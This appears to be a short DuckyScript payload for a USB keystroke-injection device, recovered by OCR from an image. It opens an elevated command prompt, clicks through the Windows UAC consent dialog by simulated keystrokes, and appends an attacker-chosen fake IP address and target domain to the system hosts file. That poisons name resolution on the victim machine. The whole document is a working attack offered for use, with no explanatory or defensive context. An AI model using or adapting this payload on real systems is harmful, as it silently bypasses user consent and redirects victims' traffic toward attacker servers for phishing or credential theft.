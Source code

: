 DELAY 100
GUI r
DELAY 500
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
CTRL SHIFT ENTER
DELAY 800
TAB
DELAY 200
TAB
DELAY 200
ENTER
DELAY 750
STRING ECHO.<YOUR FAKE IP ADDRESS> <DOMAIN YOU WANT TO POISON> >> C:\Windows\System32\drivers\etc\hosts
DELAY 50
ENTER
REM STRING exit
ENTER

